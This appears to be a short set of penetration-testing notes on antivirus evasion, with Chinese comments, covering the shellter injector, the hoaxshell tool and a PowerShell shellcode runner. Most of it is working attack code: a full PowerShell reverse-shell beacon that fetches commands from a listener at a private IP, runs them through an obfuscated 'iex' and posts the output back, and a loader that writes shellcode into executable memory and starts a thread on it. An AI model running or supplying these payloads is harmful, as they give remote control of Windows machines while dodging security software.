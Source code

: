 # AV Evasion

## shellter

shellter是一个动态的反向TCP/UDP连接的shellcode注入工具，它可以将shellcode注入到Windows可执行文件中，使其免杀。

但是要windows环境，还要intel x86/x64架构芯片。所以M1芯片的Mac是不行的。

## hoaxshell

<https://github.com/t3l3machus/hoaxshell>

A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.

```bash
python3 ./hoaxshell.py -s 192.168.45.185 -r -H "Authorization"
```

```powershell
$s='172.16.8.130:8080';$i='bf987f35-a12cc336-7e35106c';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/bf987f35 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a12cc336 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=i'e'x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7e35106c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

## powershell

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);   
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
//导入 kernel32.dll 中的 VirtualAlloc、CreateThread  
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
// 导入 msvcrt.dll 中的 memset
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;                         // 变量 $sc 保存 shellcode
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);                  //使用VirtualAlloc分配一块内存
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};    //使用 memset 函数将 shellcode 写入新分配的内存中
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };           //使用 CreateThread 创建新的进程，执行内存中的 shellcode
```
